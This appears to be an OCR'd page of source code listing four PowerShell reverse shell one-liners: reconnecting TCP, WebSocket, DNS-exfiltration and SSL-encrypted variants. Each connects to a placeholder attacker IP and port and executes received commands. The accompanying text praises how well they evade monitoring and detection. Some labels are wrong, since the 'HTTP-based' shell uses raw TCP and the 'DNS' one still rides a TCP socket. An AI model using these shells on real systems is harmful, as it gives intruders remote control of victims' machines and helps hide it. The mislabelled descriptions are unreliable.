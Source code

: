 
## **HTTP-Based PowerShell Reverse Shell**



`while($true) { try { $client = New-Object System.Net.Sockets.TCPClient('attacker_ip', attacker_port); $stream = $client.GetStream(); [byte[]]$bytes = 0..65535|%{0}; while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){; $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i); $sendback = (iex $data 2>&1 | Out-String ); $sendback2  = $sendback + 'PS ' + (pwd).Path + '> '; $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2); $stream.Write($sendbyte,0,$sendbyte.Length); $stream.Flush()}; $client.Close() } catch { Start-Sleep -Seconds 10 } }`

This script creates a more resilient reverse shell that attempts to reconnect every 10 seconds if the connection is lost. It uses HTTP for communication.

---

## **WebSocket-Based PowerShell Reverse Shell**



`$ClientWebSocket = New-Object System.Net.WebSockets.ClientWebSocket; $uri = New-Object System.Uri("ws://attacker_ip:attacker_port"); $ClientWebSocket.ConnectAsync($uri, $null).Result; $buffer = New-Object Byte[] 1024; while ($ClientWebSocket.State -eq 'Open') { $received = $ClientWebSocket.ReceiveAsync($buffer, $null).Result; $command = [System.Text.Encoding]::ASCII.GetString($buffer, 0, $received.Count); $output = iex $command 2>&1 | Out-String; $bytesToSend = [System.Text.Encoding]::ASCII.GetBytes($output); $ClientWebSocket.SendAsync($bytesToSend, 'Binary', $true, $null).Wait() }`

Establishes a reverse shell using WebSockets, which can be more stealthy and bypass some network monitoring tools.

---

## **DNS-Based PowerShell Reverse Shell**



`function Invoke-DNSReverseShell { param([string]$attacker_ip, [int]$attacker_port) $client = New-Object System.Net.Sockets.TCPClient($attacker_ip, $attacker_port); $stream = $client.GetStream(); [byte[]]$bytes = 0..65535|%{0}; while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){; $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i); $sendback = (iex $data 2>&1 | Out-String ); $encodedSendback = [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($sendback)); nslookup $encodedSendback $attacker_ip; $stream.Flush()}; $client.Close() }`

This script uses DNS requests to exfiltrate data, making the reverse shell traffic appear as DNS queries, which can be less suspicious and harder to detect.

---

## **Encrypted PowerShell Reverse Shell**



`$ErrorActionPreference = 'SilentlyContinue'; $client = New-Object System.Net.Sockets.TCPClient('attacker_ip', attacker_port); $stream = $client.GetStream(); $sslStream = New-Object System.Net.Security.SslStream($stream, $false, {$true} ); $sslStream.AuthenticateAsClient('attacker_ip'); $writer = New-Object System.IO.StreamWriter($sslStream); $reader = New-Object System.IO.StreamReader($sslStream); while($true) { $writer.WriteLine('PS ' + (pwd).Path + '> '); $writer.Flush(); $command = $reader.ReadLine(); if($command -eq 'exit') { break; }; $output = iex $command 2>&1 | Out-String; $writer.WriteLine($output); $writer.Flush() }; $client.Close()`
